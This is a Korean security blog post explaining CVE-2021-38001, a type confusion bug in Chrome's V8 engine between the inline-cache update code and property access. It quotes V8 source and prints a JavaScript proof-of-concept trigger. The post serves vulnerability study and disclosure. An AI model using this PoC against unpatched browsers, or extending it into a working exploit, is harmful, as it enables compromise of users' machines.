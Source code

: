 ```yaml
---
title: "[하루한줄] CVE-2021-38001: Chrome V8의 Type Confusion 취약점"
author: L0ch
tags: [cve, L0ch, chrome, cve-2021-38001, v8, cache, type confusion]
categories: [1day1line]
date: 2021-11-18 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- https://github.com/vngkv123/articles/blob/main/CVE-2021-38001.md

## Target

- Chrome V8

## Explain

지난 8월에 이어 Chrome의 V8 엔진에서 Type Connfusion 취약점이 발견되어 PoC 및 상세 정보가  공개되었습니다.

**[CVE-2021-30517: Chrome V8 엔진의 Type Confusion 취약점](https://hackyboiz.github.io/2021/08/17/l0ch/2021-08-17/)**

취약점은 미스된 캐시를 업데이트하는 과정에서  `[accessor-assembler.cc](<http://accessor-assembler.cc>)`와 `ic.cc` 사이에 발생합니다. 다음은  `accessor-assembler.cc` 의 코드 일부입니다.

```c
//accessor-assembler.cc
Comment("module export");
TNode<UintPtrT> index =
	DecodeWord<LoadHandler::ExportsIndexBits>(handler_word);

// p->receiver로 캐스팅해 속성 접근
TNode<Module> module = LoadObjectField<Module>(
	CAST(p->receiver()), JSModuleNamespace::kModuleOffset);

TNode<ObjectHashTable> exports =
	LoadObjectField<ObjectHashTable>(module, Module::kExportsOffset);
TNode<Cell> cell = CAST(LoadFixedArrayElement(exports, index));
```

캐시 미스가 발생하면 `ComputeHander`를 호출해 캐시를 업데이트합니다. `ic.cc`는 `JSModuleNamespace`의 `lookup_start_object(holer)`를 기반으로 캐시를 업데이트하지만 업데이트 후 `accessor-assembler.cc`에서 이루어지는 실제 속성 액세스 프로세스는 `JSModuleNamespace`에 없는 `receiver` 객체에서 실행됩니다. 따라서 `receiver`와 `lookup_start_object(holder)`가 다르면 Type Confusion이 발생하게 됩니다.

취약점에 대한 POC는 다음과 같습니다.

```c
import * as module from "1.mjs";

function poc() {
    class C {
        m() {
            return super.y;
        }
    }

    let zz = {aa: 1, bb: 2};
    // receiver vs holder type confusion
    function trigger() {
        // set lookup_start_object
        C.prototype.__proto__ = zz;
        // set holder
        C.prototype.__proto__.__proto__ = module;

        // "c" is receiver in ComputeHandler [ic.cc]
        // "module" is holder
        // "zz" is lookup_start_object
        let c = new C();

        c.x0 = 0x42424242 / 2;
        c.x1 = 0x42424242 / 2;
        c.x2 = 0x42424242 / 2;
        c.x3 = 0x42424242 / 2;
        c.x4 = 0x42424242 / 2;

        // LoadWithReceiverIC_Miss
        // => UpdateCaches (Monomorphic)
        // CheckObjectType with "receiver"
        let res = c.m();
    }
    
    for (let i = 0; i < 0x100; i++) {
        trigger();
    }
}

poc();
```
